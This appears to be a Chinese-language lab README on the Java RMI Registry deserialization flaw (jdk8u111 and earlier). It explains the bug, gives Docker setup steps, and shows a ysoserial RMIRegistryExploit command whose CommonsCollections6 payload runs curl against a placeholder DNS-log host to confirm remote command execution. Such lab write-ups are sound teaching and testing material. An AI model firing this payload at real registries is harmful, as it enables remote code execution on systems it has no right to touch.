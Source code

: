 # Java RMI Registry 反序列化漏洞 (<=jdk8u111)

## 漏洞描述

Java Remote Method Invocation 用于在 Java 中进行远程调用。RMI 存在远程 bind 的功能（虽然大多数情况不允许远程 bind），在 bind 过程中，伪造 Registry 接收到的序列化数据（实现了 Remote 接口或动态代理了实现了 Remote 接口的对象），使 Registry 在对数据进行反序列化时触发相应的利用链（环境用的是 commons-collections:3.2.1）。

## 环境搭建

执行如下命令编译及启动 RMI Registry 和服务器：

```
docker-compose build
docker-compose run -e RMIIP=your-ip -p 1099:1099 rmi
```

其中，`your-ip` 是服务器 IP，客户端会根据这个 IP 来连接服务器。

环境启动后，RMI Registry 监听在 1099 端口。

## 漏洞复现

通过 ysoserial 的 exploit 包中的 RMIRegistryExploit 进行攻击

```bash
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit your-ip 1099 CommonsCollections6 "curl your-dnslog-server"
```

![image-20220224142802160](images/202202241428503.png)

Registry 会返回报错，但命令会正常执行。可以看到 dnslog 成功接收请求。

![image-20220224142736669](images/202202241427738.png)
